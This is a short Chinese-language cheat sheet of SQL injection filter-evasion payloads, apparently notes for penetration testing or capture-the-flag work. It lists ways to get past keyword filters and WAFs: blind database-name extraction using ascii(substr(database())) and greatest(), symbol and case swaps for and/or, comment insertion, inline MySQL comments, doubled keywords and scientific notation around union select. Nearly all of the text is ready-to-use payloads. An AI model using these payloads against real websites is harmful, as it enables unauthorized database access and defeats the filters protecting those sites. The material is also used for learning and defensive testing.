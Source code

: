 #### 比较符

大于、小于可用 `greatest(), least()` 代替，还可以 `between and`

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

#### 条件连接词

```
利用符号:
and => &&
or => ||
xor => |
not => !

大小写变形: Or, OR, oR
添加注释: o/**/r
编码：hex, urlencode
```

#### union, select, where

（1）使用注释符绕过：

```
//，-- , /**/, #, --+, -- -, ;,%00,--a

sele%ct IIS 服务器可以插入 %
```

（2）使用大小写绕过：

```
id=-1'UnIoN/**/SeLeCT
```

（3）内联注释绕过：

```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

（4） 双关键字绕过：

```
id=-1'UNIunionONSeLselectECT1,2,3–-
```

（5）科学计数法

```
id=0e1union 
```



#### 表名
